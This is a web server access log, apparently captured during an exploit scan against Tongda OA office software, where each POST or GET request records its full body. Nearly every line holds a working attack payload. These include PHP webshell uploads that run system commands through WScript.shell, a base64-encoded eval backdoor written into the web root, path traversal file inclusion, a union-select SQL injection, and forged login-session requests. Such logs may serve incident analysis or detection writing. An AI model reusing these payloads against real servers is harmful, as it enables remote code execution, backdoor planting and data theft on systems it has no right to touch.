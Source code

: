 ```plain
192.168.17.1 - - [15/Nov/2022:10:27:35 -0500] "POST //ispirit/im/upload.php HTTP/1.1"200 47 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36" "-" "--88d153850f4cd9519a022a3e88cd6569\x0D\x0AContent-Disposition: form-data; name=\x22P\x22\x0D\x0A\x0D\x0A123\x0D\x0A--88d153850f4cd9519a022a3e88cd6569\x0D\x0AContent-Disposition: form-data; name=\x22Filename\x22\x0D\x0A\x0D\x0Aphp.jpg\x0D\x0A--88d153850f4cd9519a022a3e88cd6569\x0D\x0AContent-Disposition: form-data; name=\x22DEST_UID\x22\x0D\x0A\x0D\x0A1\x0D\x0A--88d153850f4cd9519a022a3e88cd6569\x0D\x0AContent-Disposition: form-data; name=\x22UPLOAD_MODE\x22\x0D\x0A\x0D\x0A2\x0D\x0A--88d153850f4cd9519a022a3e88cd6569\x0D\x0AContent-Disposition: form-data; name=\x22ATTACHMENT\x22; filename=\x22ATTACHMENT\x22\x0D\x0A\x0D\x0A<?php $command='whoami';$wsh = new COM('WScript.shell');$exec = $wsh->exec('cmd /c '.$command);$stdout = $exec->StdOut();$stroutput = $stdout->ReadAll();echo $stroutput;?>\x0D\x0A--88d153850f4cd9519a022a3e88cd6569--\x0D\x0A"
192.168.17.1 - - [15/Nov/2022:10:27:36 -0500] "POST //mobile/api/api.ali.php HTTP/1.1"200 31 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36" "-" "--502f67681799b07e4de6b503655f5cae\x0D\x0AContent-Disposition: form-data; name=\x22file\x22; filename=\x22fb6790f4tongda.json\x22\x0D\x0AContent-Type: application/octet-stream\x0D\x0A\x0D\x0A{\x22modular\x22:\x22AllVariable\x22,\x22a\x22:\x22ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0dG9uZ2RhLnBocCcsJzw/cGhwICRhPSJ+K2QoKSJeIiF7K3t9IjskYj0keyRhfVsieCJdO2V2YWwoIiIuJGIpOz8+Jyk7==\x22,\x22dataAnalysis\x22:\x22{\x5C\x22a\x5C\x22:\x5C\x22\xE9\x8C\xA6',$BackData[dataAnalysis] => eval(base64_decode($BackData[a])));/*\x5C\x22}\x22}\x0D\x0A--502f67681799b07e4de6b503655f5cae--"
192.168.17.1 - - [15/Nov/2022:10:27:36 -0500] "GET //inc/package/work.php?id=../../../../../myoa/attach/approve_center/2204/%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E.fb6790f4tongda HTTP/1.1"500 5 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:36 -0500] "GET //fb6790f4tongda.php HTTP/1.1"404 56 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:36 -0500] "POST //logincheck_code.php HTTP/1.1"200 62 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "UID=1&CODEUID=_PC{C09D5F0C-5957-8F8D-E3C6-A1D23DF8CD6F}"
192.168.17.1 - - [15/Nov/2022:10:27:37 -0500] "POST //general/bi_design/appcenter/report_bi.func.php HTTP/1.1"200 2493 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "_POST[dataset_id]=efgh'-@`'`)union select database(),2,user()#'&action=get_link_info&"
192.168.17.1 - - [15/Nov/2022:10:27:38 -0500] "POST //general/file_folder/swfupload_new.php HTTP/1.1"200 2493 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "------------GFioQpMK0vv2\x0D\x0AContent-Disposition: form-data; name=\x22ATTACHMENT_ID\x22\x0D\x0A\x0D\x0A1\x0D\x0A------------GFioQpMK0vv2\x0D\x0AContent-Disposition: form-data; name=\x22ATTACHMENT_NAME\x22\x0D\x0A\x0D\x0A1\x0D\x0A------------GFioQpMK0vv2\x0D\x0AContent-Disposition: form-data; name=\x22FILE_SORT\x22\x0D\x0A\x0D\x0A2\x0D\x0A------------GFioQpMK0vv2\x0D\x0AContent-Disposition: form-data; name=\x22SORT_ID\x22\x0D\x0A\x0D\x0A------------GFioQpMK0vv2--"
192.168.17.1 - - [15/Nov/2022:10:27:38 -0500] "POST //logincheck_code.php HTTP/1.1"200 62 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "UID=1&CODEUID=_PC{6047FF7A-0B4A-3311-E5A9-31D28A933872}"
192.168.17.1 - - [15/Nov/2022:10:27:39 -0500] "POST //ispirit/im/upload.php HTTP/1.1"200 25 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "--********\x0D\x0AContent-Disposition: form-data; name=\x22UPLOAD_MODE\x22\x0D\x0A\x0D\x0A2\x0D\x0A--********\x0D\x0AContent-Disposition: form-data; name=\x22P\x22\x0D\x0A\x0D\x0A123\x0D\x0A--********\x0D\x0AContent-Disposition: form-data; name=\x22DEST_UID\x22\x0D\x0A\x0D\x0A1\x0D\x0A--********\x0D\x0AContent-Disposition: form-data; name=\x22ATTACHMENT\x22; filename=\x22png\x22\x0D\x0AContent-Type: image/jpeg\x0D\x0A\x0D\x0A<?php file_put_contents($_SERVER[\x22DOCUMENT_ROOT\x22].\x22//zskwgpaodw.php\x22,base64_decode(\x22PD9waHAgJGE9In4rZCgpIl4iIXsre30iOyRiPSR7JGF9WyJ4Il07ZXZhbCgiIi4kYik7Pz4=\x22).\x22zskwgpaodw\x22);?><?php unlink(__FILE__);echo \x22zskwgpaodw\x22;?>\x0D\x0A--********\x0D\x0A\x0D\x0A"
192.168.17.1 - - [15/Nov/2022:10:27:39 -0500] "GET //mobile/inc/get_contactlist.php?P=1&KWORD=%25&isuser_info=3 HTTP/1.1"200 17 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
```
